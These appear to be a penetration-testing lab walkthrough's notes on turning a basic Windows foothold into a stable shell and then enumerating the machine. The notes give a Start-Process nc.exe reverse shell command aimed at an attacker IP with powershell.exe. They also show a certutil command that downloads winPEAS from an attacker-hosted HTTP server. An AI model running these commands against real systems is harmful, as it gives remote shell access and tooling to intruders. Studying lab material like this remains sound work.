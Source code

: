 https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/windows
Now will get more stable shell for ourself this time 

Will simply locate the NC in kali and will upload that to SMB share as well
![[Pasted image 20230917193621.png]]

Command to be run in the dumb shell
![[Pasted image 20230917194444.png]]
```
Start-Process -FilePath "C:\enterprise-share\nc.exe" -ArgumentList "-nv 10.8.167.78 6666 -e powershell.exe"
```

Let's see if we get the SMART shell or not ?__?
Yeah we got it with some micro-soft rights this time

![[Pasted image 20230917194808.png]]

Let's Run Winpeas and see what we get and if u note earlier we found that the machine is x64
![[Pasted image 20230917201545.png]]

I fired up the server in kali
```
python3 -m http.server 8080 -b 10.8.167.78
```

Which command to run on the windows side to download the file
```
certutil.exe -urlcache -f http://10.8.167.78:8080/winPEASx64_ofs.exe winPEASx64_ofs.exe
```
![[Pasted image 20230917195521.png]]

